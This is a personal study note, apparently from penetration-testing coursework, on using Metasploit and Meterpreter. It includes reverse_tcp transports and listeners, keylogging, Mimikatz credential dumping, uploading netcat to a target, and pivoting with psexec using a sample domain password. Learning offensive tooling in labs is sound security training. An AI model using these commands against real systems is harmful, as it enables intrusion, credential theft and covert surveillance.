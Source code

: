 ```yaml
---
creation date: December 20th 2022
last modified date: December 20th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Metasploit]]  
___

## Description:  

### Basics
View categories
`show -h`
`show auxiliary`

To search for a module
`search portscan`

Use `info` to get more information
`msf5 > info exploit/windows/http/syncbreeze_bof`

To activate a module
`use auxiliary/scanner/portscan/tcp`
or you can search first and then just pick the number you want
`use 4`
`back` can be used to move out of the module and return to the main msf5 prompt.

To view details of a module
`show options`
`show advanced` to show more options.
`set`  and `unset` can be used to set and remove options.

`show payloads` can be used to retrieve a listing of all payloads that are compatible with the currently selected exploit module.

`check` can be used to verify whether or not the target host and application are vulnerable (will only work on certain modules).

use `run` or `exploit` to start the module once the options are set. `exploit -j` will run the job in the background.

use `jobs` to list background jobs, `jobs -i 0` to interact with a job, and `kill 0` to kill a job.

We can retrieve information regarding successful login  attempts from the database with `creds`.

### Meterpreter Commands

`help` will get a list of modules and commands

Useful commands:
```
sysinfo
getuid
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
edit edit.txt
search -f autoexec.bat
execute -f cmd.exe -i -H
```

use `shell` to drop into a system shell. This can be useful when our shells dies, we can return to the meterpreter session with `^c` or `exit`.

`background` can be used to background a session. Use `sessions -l` to list sessions, `session -i 5` to interact, and `session -k 1` to kill a session.

We can use `transport list` to switch protocols after our initial compromise.
To add a new transport protocol (this would be like choosing windows/meterpreter/reverse_tcp payload)
`meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555`
We have to set up a listener to accept the connection.
```
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
msf5 exploit(multi/handler) > sessions -i 5
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
msf5 exploit(multi/handler) > sessions -i 6
```

### Post-Exploitation with Metasploit

^5b4372
Screenshot and keylogger
```
meterpreter > screenshot
Screenshot saved to:/root/.msf4/modules/exploits/windows/http/syncbreeze/beVjSnrB.jpeg


meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
ipconfig<CR>
whoami<CR>
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter >

```

Executing Powershell Commands
```
meterpreter > load powershell

meterpreter > help powershell
Powershell Commands
===================
 Command Description
 ------- -----------
 powershell_execute Execute a Powershell command string
 powershell_import Import a PS1 script or .NET Assembly DLL
 powershell_shell Create an interactive Powershell prompt

meterpreter > powershell_execute "$PSVersionTable.PSVersion"

```

Loading Mimikatz and dumping system credentials.
```
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
```


### Pivoting

^8f3ca2

^6aac08
We will use route and add to create a path to the alternate internal network subnet we discovered. We will also specify the session ID that this route will apply to:
```
msf5 > route add 192.168.1.0/24 11
[*] Route added
msf5 > route print
```
We can now portscan into this network
```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run
```
We can also pivot using the psexec module:
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
SMBUser => jeff_admin
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec_psh) > set RHOST 192.168.1.110
LHOST => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
LPORT => 444
msf5 exploit(windows/smb/psexec_psh) > exploit
```
It’s important to note that the added route will only work with established connections, meaning that a new shell. A reverse shell would not be able to find it's way back to the attacking machine.

As an alternative to adding routes manually, we can use the autoroute post-exploitation module, which can set up pivot routes through an existing meterpreter session automatically.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > show options
msf5 post(multi/manage/autoroute) > set session 4
msf5 post(multi/manage/autoroute) > exploit

```

Setup a socks proxy:
[[SOCKS Proxies#^8b8d22]]

Port forward:
[[Port Forwards#^651985]]




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 20th 2022 (10:33 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
